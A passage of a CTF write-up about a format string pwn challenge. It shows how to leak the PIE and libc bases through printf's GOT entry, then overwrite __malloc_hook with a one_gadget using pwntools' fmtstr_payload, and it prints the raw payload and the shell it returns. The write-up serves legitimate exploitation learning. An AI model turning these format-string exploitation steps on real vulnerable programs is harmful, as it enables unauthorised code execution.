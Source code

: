 Now we just find the offset between the start and the code section, and bob's your uncle, we have the offset for the base address leaked.

Now next we need to leak the global offset table's entry for printf - we remember that %s, reads from an address and prints that, so we read from the address of the global offset table and we have leaked libc base+printf offset. We can test which parameter access we need to use manually:
```
cave@townie:~/CTF/pwn/format_$ ./format
aaaabbbb %8$p i AAAAAAAA
aaaabbbb 0x4141414141414141 i AAAAAAAA
```

Now we use this info to leak printf (We put the address of prints GOT entry instead of the 8 capital A's) - after that we use a libc database to find out which libc is running remotely. Last but not least, we need to make the actual write with format string.

```python
payload = fmtstr_payload(6, {__malloc_hook: one_gd})
```

I'm not completely sure why it has to be 6, but it's something about you controlling that parameter:
```
AAAAiiii %6$p
AAAAiiii 0x6969696941414141
```

And then we just send it! And send a ton of characters to call malloc to get space for them, and boom:

```python3
[*] '/home/cave/CTF/pwn/format_/solve1_malloc_hook/format'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge on port 80085: Done
[+] Start: 0x55661cfd20c0
[*] Base: 0x55661cfd1000
printf got 0x55661cfd4fc0
[-] Leaked printf got: 0x7fe98b203e80
[-] Leaked libc: 0x7fe98b19f000
b'%140c%15$lln%c16$hhn%86c%17$hhn%618$hhn%85c%19$hhn%12c%20$hhnaaaaba0\xacX\x8b\xe9\x7f\x00\x001\xacX\x8b\xe9\x7f\x00\x004\xacX\x8b\xe9\x7f\x00\x002\xacX\x8b\xe9\x7f\x00\x005\xacX\x8b\xe9\x7f\x00\x003\xacX\x8b\xe9\x7f\x00\x00'
/home/cave/CTF/pwn/format_/solve1_malloc_hook/sol.py:92: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(payload)
[*] Switching to interactive mode
                                                                                                                                           p      \xd0                                                                                     \x81                                                                \xc0                                                                                    \xc0           %aaaaba0ls
flag.txt
format
run_challenge.sh
```
